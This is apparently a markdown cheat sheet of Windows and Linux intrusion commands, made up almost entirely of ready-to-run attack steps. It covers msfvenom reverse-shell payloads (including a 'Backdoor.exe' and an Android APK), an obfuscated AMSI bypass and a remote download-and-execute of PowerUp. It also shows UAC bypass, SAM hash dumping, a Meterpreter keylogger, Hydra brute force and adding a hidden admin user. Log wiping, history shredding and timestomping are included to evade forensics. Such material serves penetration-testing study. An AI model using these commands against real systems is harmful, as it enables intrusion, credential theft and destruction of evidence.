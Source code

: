 ## System hacking cheat sheet

### Getting shell with msfvenom and use PowerUp.ps1 to escalate privileges

#### Generate payload and encode using msfvenom

```sh
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=[Port in the Host Machine] -o [Output Path/shellcode.exe]
```

```sh
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=[IP Address of Host Machine] -f exe > Desktop/Backdoor.exe
```
[msfvenom documentation](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

#### Upload shellcode using a local server

```sh
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp [PATH]/shellcode.exe /var/www/html/share

service apache2 start
```

Download it to the victim machine `[IP Address of Host Machine]/share/shellcode.exe`.

#### Using handler in metasploit to connect to the payload

```sh
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST [IP Address of Host Machine]
set LPORT [Port in the Host Machine]
exploit 
```

#### Upload PowerUp.ps1

```sh
upload [PATH]/PowerUp.ps1 PowerUp.ps1
```

#### PowerUp.ps1

##### Check all vulnerabilities

```sh
shell
poweshell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
[PowerUp.ps1 tutorial](https://recipeforroot.com/advanced-powerup-ps1-usage/)

`bypass` is used to bypass PowerShell’s execution policy.

For disable [AMSI](https://docs.microsoft.com/en-us/archive/blogs/poshchap/security-focus-defending-powershell-with-the-anti-malware-scan-interface-amsi):

```sh
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

###### Excute PowerUp.ps1 without upload the script

```sh
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1'); Invoke-AllChecks"
```

##### Escalate privileges

```sh
Invoke-ServiceAbuse -Name 'Name of the vulnerable service'
```

### Attemp to bypass Windows UAC protection via the FodHelper Registry Key usind bypassuac_fodhelper exploit

```sh
use exploit/windows/local/bypassuac_fodhelper
```

If it works, in some cases we can already escalate privileges with some techniques like `getsystem`.

### Attemp to elevate privileges with Meterpreter

```sh
getsystem -t 1
```

### Obtain password hashes in the SAM file using Metasploit (root requiered)

```sh
run post/windows/gather/smart_hashdump
```

It uses the service [Named Pipe Impersonation (In Memory/Admin) Technique](https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/).

### Clear the events logs that require administrative or root privileges using Meterpreter (root requiered)

```sh
clearev
```

### Clear all event viewer logs using wevtutil (Windows)

```sh
for /F "tokens=*" %1 in ('wevtutil.exe el') DO wevtutil.exe cl "%1"
```

```sh
@echo off

FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo All Event Logs have been cleared!
goto theEnd

:do_clear
echo clearing %1
wevtutil.exe cl %1
goto :eof

:noAdmin
echo Current user permissions to execute this .BAT file are inadequate.
echo This .BAT file must be run with administrative privileges.
echo Exit now, right click on this .BAT file, and select "Run as administrator".  
pause >nul

:theEnd
Exit
```

### Securely delete a chunk of data by overwriting it to prevent its possible recovery using in-built Windows tool (Windows)

```sh
cipher /w:[Drive or Folder or File Location] 
```

### Avoid bash history

#### Disable the BASH shell from saving the history (Linux)

```sh
export HISTSIZE=0
```

#### Make bash history unreadable (Linux)

```sh
shred ~/.bash_history
```

```sh
shred ~/.bash_history && cat /dev/null > .bash_history
```

### Leave no trace of MACE attributes when reading or modifying files using Meterpreter

#### To view the mace attributes of a file (Windows)

```sh
timestomp [FILE] -v
```

#### Change MACE attributes (Windows)

```sh
timestomp [FILE] -m "mm/dd/yyyy hh:mm:ss"
```

PS: Timestomp can be a great tool for interacting with the filesystem and helps minimize detection by a forensic investigation.

### Keylogger using Meterpreter

#### Start keylogger

```sh
keyscan_start
```

#### Read keylogger log

```sh
keyscan_dump
```

### Attempt to gain access to FTP server perform a dictionaty attack using THC Hydra

```sh
hydra -L [USERNAMES DICTIONARY] -P [PASSWORDS DICTIONARY] ftp://[IP]
```

### Create user and set admin privilegies in Windows

```sh
net user Test /Add
net localgroup Administrators Test /Add
```

### Generate payload for Android and encode using msfvenom

```sh
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[LOCAL HOST] R > payload.apk
```

